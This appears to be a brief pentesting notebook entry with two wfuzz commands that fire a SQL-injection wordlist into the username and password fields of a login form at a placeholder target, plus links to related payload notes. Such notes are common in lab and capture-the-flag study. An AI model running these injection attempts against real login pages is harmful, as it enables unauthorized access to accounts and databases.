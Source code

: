 ```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```
[[SQLText]]
[[SQL Payload]]
